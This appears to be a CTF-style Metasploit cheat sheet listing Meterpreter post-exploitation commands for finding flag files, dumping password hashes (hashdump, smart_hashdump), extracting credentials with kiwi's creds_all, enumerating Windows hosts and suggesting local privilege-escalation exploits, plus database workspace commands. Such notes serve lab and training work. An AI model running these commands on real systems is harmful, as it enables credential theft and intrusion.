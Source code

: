 ```bash
sysinfo
getuid
getpid
ipconfig
ps

# Linux flag search
search -d / -f flag.txt
search -d / -f user.txt
search -d / -f root.txt

# Windows flag search
search -d C:\\ -f flag.txt
search -d C:\\ -f user.txt
search -d C:\\ -f root.txt

# REMEMBER: for Windows, quoting and double slashes 
cat "C:\\Programs and Files (x86)\\"

hashdump  # CrackStation
# --- kiwi (like mimikatz) ---
load kiwi
creds_all

# === WINDOWS ===
run winenum
run post/windows/gather/checkvm
run post/windows/gather/enum_applications
run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_shares

# --- Privilege Escalation & Credential Gathering ---
run post/windows/gather/smart_hashdump
run post/multi/recon/local_exploit_suggester
```

### 🗄️ DB for Targets

```bash
# Check database status from within msfconsole
db_status

# Manage workspaces
workspace
workspace -a <name>
workspace -d <name>
workspace <name>
workspace -h

# Database Backend Commands
db_nmap <nmap_options> <target>
db_connect
db_disconnect
db_export
db_import
db_rebuild_cache
db_remove
db_save
db_status
hosts
loot
notes
services
```